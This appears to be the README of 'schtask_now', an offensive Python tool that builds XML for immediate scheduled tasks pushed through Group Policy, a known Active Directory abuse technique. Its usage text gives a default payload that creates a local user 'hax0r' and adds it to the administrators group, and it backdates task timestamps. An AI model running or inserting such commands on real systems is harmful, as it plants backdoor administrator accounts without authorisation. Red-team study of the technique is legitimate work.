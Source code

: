 # schtask_now
Generate XML file for "immediate scheduled task" GPO configuration. Template borrowed from
https://github.com/rasta-mouse/GPO-Abuse/blob/master/scheduled-tasks.md and
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
(see New-GPOImmediateTask - note this function has been discontinued in the latest version
of PowerView). One improvement I made (I mean I think it's an improvement :)) is that the
commands are appropriately XML encoded (i.e. & -> &amp; etc.)

For usage info see https://rastamouse.me/2019/01/gpo-abuse-part-2/.

```
usage: schtask_now.py [-h] [-n NAME] [-m DATE] [-d DESCRIPTION] [-c COMMAND]
                      [-a ARGS]

optional arguments:
  -h, --help            show this help message and exit
  -n NAME, --name NAME  name for the scheduled task, if not provided a random
                        name in the form of 'TASK_########' is generated.
  -m DATE, --date DATE  specify task modification date, should be in 'YYYY-MM-
                        DD HH:MM:SS' format. If not provided current date -30
                        days is used.
  -d DESCRIPTION, --description DESCRIPTION
                        specify task description, if not provided empty
                        description is used.
  -c COMMAND, --command COMMAND
                        command to execute, defaults to
                        'c:\windows\system32\cmd.exe'
  -a ARGS, --args ARGS  command arguments, defaults to '/c "net user hax0r
                        Super1337 /add && net localgroup administrators hax0r
                        /add"'
```